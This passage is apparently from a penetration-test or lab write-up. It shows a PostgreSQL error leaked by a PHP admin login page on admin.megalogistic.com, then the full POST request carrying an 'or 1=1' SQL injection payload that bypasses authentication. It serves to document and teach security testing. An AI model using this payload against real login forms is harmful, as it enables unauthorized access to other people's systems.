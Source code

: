 ```
HTTP/1.1 200 OK
Date: Wed, 10 Apr 2024 17:34:37 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.3.14
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1355
Connection: close
Content-Type: text/html; charset=UTF-8

<br />
<b>Warning</b>:  pg_query(): Query failed: ERROR:  syntax error at or near &quot;admin&quot;
LINE 1: ...sers WHERE username = 'admin'' AND password = md5('admin'');
                                                              ^ in <b>/var/www/admin/index.php</b> on line <b>10</b><br />
<br />
<b>Warning</b>:  pg_num_rows() expects parameter 1 to be resource, bool given in <b>/var/www/admin/index.php</b> on line <b>11</b><br />
<html lang="en" >
<head>
.
.
.
SNIP
```

We also utilized SQL injection to bypass the authentication mechanism and gain access to the `admin` dashboard.

```
POST / HTTP/1.1
Host: admin.megalogistic.com
Cookie: PHPSESSID=daac641255d8d78188d0013f65dc9f2b
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: https://admin.megalogistic.com
Referer: https://admin.megalogistic.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

username=admin%27+or+1%3D1+--+-&password=password
```
